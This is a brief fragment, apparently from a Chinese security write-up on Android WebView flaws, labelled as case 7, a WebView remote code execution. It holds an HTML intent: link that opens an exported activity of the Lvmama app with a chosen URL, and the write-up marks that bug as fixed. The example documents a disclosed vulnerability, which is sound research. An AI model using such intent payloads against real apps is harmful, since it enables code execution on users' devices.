 ![](img/img9_u42_jpg.jpg)

**案例 7:webview RCE**

```
<a href="intent:#Intent;component=com.gift.android/.activity.WebViewIndexActivity;S.url=http://drops.wooyun.org/webview.html;S.title=WebView;end">
15、驴妈妈代码执行（fixed）
</a><br> 
```

![](img/img10_u28_jpg.jpg)
